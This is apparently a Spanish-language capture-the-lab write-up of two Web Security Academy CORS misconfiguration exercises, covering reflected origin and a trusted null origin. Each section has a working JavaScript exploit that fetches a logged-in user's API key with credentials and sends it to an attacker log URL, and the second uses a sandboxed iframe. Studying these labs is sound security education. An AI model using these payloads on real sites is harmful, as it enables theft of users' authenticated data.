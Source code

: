 # Vulnerabilidad CORS con reflexión de origen básica

Este sitio web tiene una configuración CORS insegura porque confía en todos los orígenes.

Para resolver la práctica de laboratorio, cree algo de JavaScript que utilice CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. La práctica de laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

![[Pasted image 20240619155517.png]]
![[Pasted image 20240619155544.png]]
```
<!DOCTYPE html>

<html lang="en">

<body>

    <script>

        var request = new XMLHttpRequest();

        request.onload = reqListener;

        request.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

        request.withCredentials = true;

        request.send();

        function reqListener() {

            location='/log?key='+this.responseText;

        };

    </script>

</body>

</html>
```

### Función del Código

1. **Creación del Objeto XMLHttpRequest**:
    
    `var req = new XMLHttpRequest();`
    
    - Se crea un nuevo objeto `XMLHttpRequest` que se usará para realizar la solicitud HTTP.
2. **Asignación del Evento onload**:
    
    `req.onload = reqListener;`
    
    - Se asigna la función `reqListener` como el manejador del evento `onload`, que se ejecutará cuando la solicitud se complete exitosamente.
3. **Apertura de la Solicitud**:
    
    `req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);`
    
    - Se configura la solicitud para realizar una petición HTTP GET a la URL `https://vulnerable-website.com/sensitive-victim-data`.
    - El tercer parámetro `true` indica que la solicitud debe ser asíncrona.
4. **Incluir Credenciales (Cookies)**:
    
    `req.withCredentials = true;`
    
    - Se establece que la solicitud debe incluir credenciales, como cookies, encabezados HTTP de autenticación, o certificados SSL/TLS que están asociados con la URL del dominio solicitado.
5. **Enviar la Solicitud**:
    
    `req.send();`
    
    - Se envía la solicitud al servidor.
6. **Manejador de Respuesta**:
    
    `function reqListener() {     location='//malicious-website.com/log?key='+this.responseText; };`
    
    - Cuando la solicitud se completa y los datos de respuesta están disponibles, esta función se ejecuta.
    - La función redirige el navegador del usuario a `//malicious-website.com/log`, pasando los datos de respuesta (`this.responseText`) como parámetro en la URL.

### Impacto del Código

Este código intenta realizar lo siguiente:

1. **Robo de Datos**: Al realizar una solicitud GET a `https://vulnerable-website.com/sensitive-victim-data` con `withCredentials` establecido en `true`, el código intenta obtener datos sensibles del usuario autenticado en `vulnerable-website.com`.
    
2. **Exfiltración de Datos**: Una vez que la solicitud se completa y se recibe la respuesta, el código redirige el navegador del usuario a `//malicious-website.com/log`, incluyendo los datos sensibles como parte de la URL de redirección. Esto permite al atacante capturar los datos robados.

![[Pasted image 20240619155918.png]]
![[Pasted image 20240619143837.png]]
![[Pasted image 20240619144003.png]]
![[Pasted image 20240619144440.png]]

# Vulnerabilidad CORS con origen nulo confiable

Este sitio web tiene una configuración CORS insegura porque confía en el origen "nulo".

Para resolver la práctica de laboratorio, cree algo de JavaScript que utilice CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. La práctica de laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

![[Pasted image 20240619163855.png]]
![[Pasted image 20240619163921.png]]
```
<!DOCTYPE html>

<html lang="en">

<body>

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>

        var req = new XMLHttpRequest();

        req.onload = reqListener;

        req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

        req.withCredentials = true;

        req.send();

        function reqListener() {

            location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);

        };

    </script>"></iframe>

</body>

</html>
```
**Iframe con Atributos de Sandbox**:

`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="..."></iframe>`

- **`sandbox="allow-scripts allow-top-navigation allow-forms"`**:
    
    - **`allow-scripts`**: Permite la ejecución de scripts dentro del iframe.
    - **`allow-top-navigation`**: Permite que el contenido del iframe cambie la ubicación del documento superior.
    - **`allow-forms`**: Permite el envío de formularios desde dentro del iframe.
- **`srcdoc`**:
    
    - El atributo `srcdoc` se usa para especificar el contenido del documento directamente en línea. Aquí, se utiliza para insertar un script dentro del iframe.

### Función del Script

1. **Creación de XMLHttpRequest**:
    
    `var req = new XMLHttpRequest();`
    
2. **Asignación del Evento onload**:
    
    `req.onload = reqListener;`
    
3. **Configuración y Envío de la Solicitud**:
    
    `req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send();`
    
4. **Manejador de Respuesta**:
    
    `function reqListener() {     location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); };`
### Propósito del Código

- **Robo de Datos Sensibles**: El script realiza una solicitud GET a `YOUR-LAB-ID.web-security-academy.net/accountDetails`, que supuestamente contiene datos sensibles del usuario.
- **Exfiltración de Datos**: Cuando la solicitud se completa, la respuesta (datos sensibles) se codifica y se envía como parámetro en la URL a `YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log`.

### Impacto y Riesgos

- **Robo de Información Personal**: Si el script tiene éxito, los datos personales del usuario autenticado serán robados y enviados a un servidor controlado por el atacante.
- **Abuso de Sesión Autenticada**: Debido a `req.withCredentials = true`, la solicitud incluye cookies y otras credenciales de sesión, permitiendo que el script acceda a datos protegidos.

![[Pasted image 20240619164844.png]]
![[Pasted image 20240619165602.png]]
![[Pasted image 20240619165118.png]]
